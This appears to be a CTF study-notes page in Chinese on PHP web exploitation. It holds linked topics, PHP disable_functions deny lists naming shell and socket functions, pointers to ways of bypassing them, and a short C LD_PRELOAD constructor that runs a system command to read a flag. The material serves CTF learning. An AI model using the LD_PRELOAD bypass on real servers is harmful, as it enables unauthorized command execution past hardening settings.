 - [[CTFWEB/PHP/弱类型]]
- [[CTFWEB/PHP/可变函数]]
- [[CTFWEB/PHP/无引号字符串]]
- [[CTFWEB/PHP/FFI]]
- [[CTFWEB/PHP/Phar]]
- [[CTFWEB/PHP/原生类]]
- [[CTFWEB/PHP/Session]]
- [[CTFWEB/PHP/反序列化]]
- [[CTFWEB/PHP/特殊标签]]
- [[PHP/忽略错误]]
- [[PHP/模板字符串]]
- [[CTFWEB/PHP/巧用exit()]]
- [[CTFWEB/PHP/运算优先级]]
- [[CTFWEB/PHP/用处特殊的函数]]
- # disable_function
	- ```
	  disable_functions = system,exec,shell_exec,passthru,proc_open,proc_close, proc_get_status,checkdnsrr,getmxrr,getservbyname,getservbyport, syslog,popen,show_source,highlight_file,dl,socket_listen,socket_create,socket_bind,socket_accept, socket_connect, stream_socket_server, stream_socket_accept,stream_socket_client,ftp_connect, ftp_login,ftp_pasv,ftp_get,sys_getloadavg,disk_total_space, disk_free_space,posix_ctermid,posix_get_last_error,posix_getcwd, posix_getegid,posix_geteuid,posix_getgid, posix_getgrgid,posix_getgrnam,posix_getgroups,posix_getlogin,posix_getpgid,posix_getpgrp,posix_getpid, posix_getppid,posix_getpwnam,posix_getpwuid, posix_getrlimit, posix_getsid,posix_getuid,posix_isatty, posix_kill,posix_mkfifo,posix_setegid,posix_seteuid,posix_setgid, posix_setpgid,posix_setsid,posix_setuid,posix_strerror,posix_times,posix_ttyname,posix_uname
	  ```
	  
	  
	  ```
	  passthru,system,putenv,chroot,chgrp,chown,popen,proc_open,pcntl_exec,ini_alter,ini_restore,dl,openlog,syslog,readlink,symlink,popepassthru,pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wifcontinued,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,imap_open,apache_setenv
	  ```
	-
	- 不完整版
		- ```
		  passthru,system,chroot,chgrp,chown,proc_open,proc_get_status,popen,ini_alter,ini_restore,dl,openlog,syslog,readlink,symlink,popepassthru,putenv
		  ```
	- 绕过
		- https://blog.csdn.net/jvkyvly/article/details/120197390#t10
		- [[CTFWEB/PHP/绕过disable_function]]
		-
- # LD_PRELOAD
	- 用来[[CTFWEB/PHP/绕过disable_function]]
	- ```c
	  #include <stdlib.h>
	  #include <stdio.h>
	  #include <string.h>
	  
	  __attribute__ ((__constructor__)) void angel (void){
	    unsetenv("LD_PRELOAD");
	    system("/readflag > /tmp/wx.txt");
	  }
	  ```
- # 传入参数名转换
	- 如果GET/POST参数名中有 `.` 或者空格，那 PHP 会将其转换成下划线
- # $_SERVER
	- `$_SERVER['QUERY_STRING']` 不会进行 url 转义
- # $_REQUEST
	- `$_REQUEST` 中 post 的优先级更高
	- 由 `phpinfo` 中的 `request_order` 和 `variables_order` 定义
-